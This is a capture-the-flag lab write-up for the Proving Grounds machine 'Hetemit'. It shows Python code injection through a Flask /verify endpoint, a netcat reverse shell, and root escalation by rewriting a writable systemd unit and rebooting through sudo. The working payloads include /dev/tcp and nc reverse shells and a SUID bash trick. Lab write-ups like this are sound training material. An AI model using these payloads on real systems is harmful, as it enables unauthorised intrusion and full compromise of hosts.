





# Hetemit - Proving Grounds Practice

> **Kill Chain Summary**:
> Multi-Port Reconnaissance -> High-Port REST API Enumeration (Port 50000) -> Python Code Injection via Insecure Evaluation (`/verify`) -> Reverse Shell as `cmeeks` -> Local Enumeration (Sudo Rights to `/sbin/reboot` & Insecure Permissions on `pythonapp.service`) -> Service Modification (`User=root` and Command Execution) -> System Reboot via Sudo -> Privilege Escalation to Root (`root`).

| Property | Value |
| :--- | :--- |
| **Target Name** | Hetemit |
| **Platform** | Proving Grounds Practice |
| **OS** | Linux |
| **Difficulty** | Hard |
| **Status** | Rooted |
| **Key Techniques** | Python Code Injection (Insecure eval/exec), Custom Flask API Enumeration, Insecure Systemd Service Permissions (`pythonapp.service`), Sudo Reboot Privilege Escalation |

---

## 1. Reconnaissance and Enumeration

### 1.1 Port Scanning

A full TCP port scan was performed using Nmap:

```bash
sudo nmap -p- --min-rate 1000 -T4 -Pn 192.168.139.117 -oA nmap/tcp_all
```

```text
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
18000/tcp open  biimenu
50000/tcp open  ibm-db2
```

The scan discovers several open ports, including standard services (FTP, SSH, HTTP, SMB) and high-port web services on 18000 and 50000.

### 1.2 Web Enumeration across Multiple Ports

#### Port 80 (Apache Default Page)
Navigating to `http://192.168.139.117:80/` displays a default Apache HTTP Server landing page without custom application code:



#### Port 18000 (Authentication Portal)
Accessing `http://192.168.139.117:18000/` presents an authentication login screen without default credentials:



#### Port 50000 (Custom REST API)
Navigating to `http://192.168.139.117:50000/` returns a JSON object exposing available endpoints:



```json
{'/generate', '/verify'}
```

Inspecting each endpoint individually:
- `http://192.168.139.117:50000/generate` displays `{'email@domain'}`:


- `http://192.168.139.117:50000/verify` displays `{'code'}`:



---

## 2. Initial Access

### 2.1 Vulnerability Discovery: Python Code Injection

The `code` parameter on `/verify` suggests that the backend server may evaluate expressions dynamically. Sending a mathematical expression via a POST request tests for server-side evaluation:

```bash
curl -X POST -d "code=2*2" "http://192.168.139.117:50000/verify"
```

```text
4
```

The calculation is evaluated server-side. Testing for Python code execution via dynamic module importation:

```bash
curl -X POST -d "code=__import__('os').popen('id').read()" "http://192.168.139.117:50000/verify"
```

```text
uid=1000(cmeeks) gid=1000(cmeeks) groups=1000(cmeeks)
```

```bash
curl -X POST -d "code=__import__('os').popen('whoami').read()" "http://192.168.139.117:50000/verify"
```

```text
cmeeks
```

The application is vulnerable to unauthenticated remote code execution via unsafe Python evaluation.

### 2.2 Exploitation and Reverse Shell

Set up a Netcat listener on port 21 (which is permitted outbound through the local firewall rules):

```bash
sudo nc -lvnp 21
```

Send the reverse shell payload through the `code` parameter:

```bash
curl -X POST -d "code=__import__('os').popen('nc 192.168.45.185 21 -e /bin/bash')" "http://192.168.139.117:50000/verify"
```

The listener catches the reverse shell:

```text
listening on [any] 21 ...
connect to [192.168.45.185] from (UNKNOWN) [192.168.139.117] 60748
whoami
cmeeks
```

Upgrade the raw shell to an interactive PTY:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

Retrieve the user flag:

```bash
cat /home/cmeeks/local.txt
```

```text
[FLAG REDACTED]
```

---

## 3. Privilege Escalation

### 3.1 Local Enumeration

Checking sudo permissions for user `cmeeks`:

```bash
sudo -l
```

```text
User cmeeks may run the following commands on hetemit:
    (root) NOPASSWD: /sbin/halt, /sbin/reboot, /sbin/poweroff
```

The user can reboot the system as `root` without providing a password.

Running LinPEAS identifies insecure file permissions on a custom systemd service unit:



Checking permissions and inspecting `/etc/systemd/system/pythonapp.service`:

```bash
ls -la /etc/systemd/system/pythonapp.service
```

```text
-rw-rw-r-- 1 root cmeeks 302 /etc/systemd/system/pythonapp.service
```

The service configuration file is writable by the `cmeeks` group. Viewing the original service definition:

```bash
cat /etc/systemd/system/pythonapp.service
```

```ini
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
WorkingDirectory=/home/cmeeks/restjson_hetemit
ExecStart=flask run -h 0.0.0.0 -p 50000
TimeoutSec=30
RestartSec=15s
User=cmeeks
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

### 3.2 Exploitation: Modifying Service and Rebooting

> [!NOTE] Concept: Systemd Service Persistence / Sudo Reboot
> Because `cmeeks` has write permissions to `/etc/systemd/system/pythonapp.service` and sudo rights to execute `/sbin/reboot`, the service definition can be modified to run as `User=root` and execute an arbitrary command (such as setting the SUID bit on `/bin/bash` or spawning a reverse shell). Rebooting the host triggers systemd to launch the modified payload upon startup.

In a non-interactive or semi-interactive shell, editing the service file directly using `cat` with a heredoc or `sed` avoids issues encountered when launching interactive editors like `nano` or `vi`.

Overwrite `/etc/systemd/system/pythonapp.service` to assign SUID permissions to `/bin/bash` with root execution:

```bash
cat << 'EOF' > /etc/systemd/system/pythonapp.service
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
User=root
ExecStart=/bin/chmod +s /bin/bash

[Install]
WantedBy=multi-user.target
EOF
```

Alternatively, configure `ExecStart` to send a reverse shell back to a listener:

```bash
cat << 'EOF' > /etc/systemd/system/pythonapp.service
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/192.168.45.185/21 0>&1"

[Install]
WantedBy=multi-user.target
EOF
```

Reboot the host using the permitted sudo command:

```bash
sudo /sbin/reboot
```

Once the host reboots, systemd executes the service payload as root.

If the SUID approach was chosen, log back in via SSH or reverse shell and spawn a root shell:

```bash
/bin/bash -p
```

```text
bash-5.0# id
uid=1000(cmeeks) gid=1000(cmeeks) euid=0(root) groups=0(root)
```

Retrieve the root flag:

```bash
cat /root/proof.txt
```

```text
[FLAG REDACTED]
```

---

## 4. Useful Commands Summary

```bash
# Test Remote Python Evaluation via POST
curl -X POST -d "code=__import__('os').popen('<COMMAND>').read()" "http://<TARGET_IP>:50000/verify"

# Check Sudo Permissions
sudo -l

# Overwrite Writable Systemd Service Non-Interactively
cat << 'EOF' > /etc/systemd/system/pythonapp.service
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
User=root
ExecStart=/bin/chmod +s /bin/bash

[Install]
WantedBy=multi-user.target
EOF

# Trigger Reboot via Sudo
sudo /sbin/reboot

# Access Privileged Bash Shell via SUID Bit
/bin/bash -p
```

---

## 5. Key Takeaways and Lessons Learned

1. **Non-Standard API Port Probing:** High-order open ports (like 50000) often host internal microservices or custom APIs lacking input sanitization. Testing endpoints with arithmetic expressions (`2*2`) quickly reveals server-side evaluation flaws.
2. **Systemd Unit File Permissions:** Service files located in `/etc/systemd/system/` should never be writable by unprivileged users or non-root groups. A writable service combined with any reboot or service restart capability leads directly to root compromise.
3. **Non-Interactive File Editing:** In reverse shells where terminal dimensions (`stty`) or term settings break visual editors (`nano`, `vi`), rely on `cat << 'EOF'`, `echo`, or `sed` to edit critical configuration files safely.

---

#proving-grounds #linux #hard #code-injection #python #flask #systemd #sudo-reboot #suid #privesc
